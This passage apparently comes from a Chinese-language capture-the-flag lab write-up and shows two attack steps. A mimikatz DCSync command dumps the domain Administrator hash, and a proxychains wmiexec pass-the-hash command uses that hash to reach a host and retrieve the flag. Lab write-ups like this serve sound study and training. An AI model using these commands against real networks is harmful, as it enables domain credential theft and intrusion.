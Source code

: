 
抓取域管哈希

```plain
>mimikatz_x64.exe "lsadump::dcsync /domain:xiaorang.lab /user:xiaorang\Administrator" exit
```

[![](assets/1705540441-0f16fc3aaf302637bde9e498bbcc4045.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174945-9421d2f6-b454-1.png)

使用wmiexec进行PTH即可获取flag

```plain
proxychains wmiexec.py -hashes :4889f6553239ace1f7c47fa2c619c252 administrator@172.22.4.7 -codec gbk
```
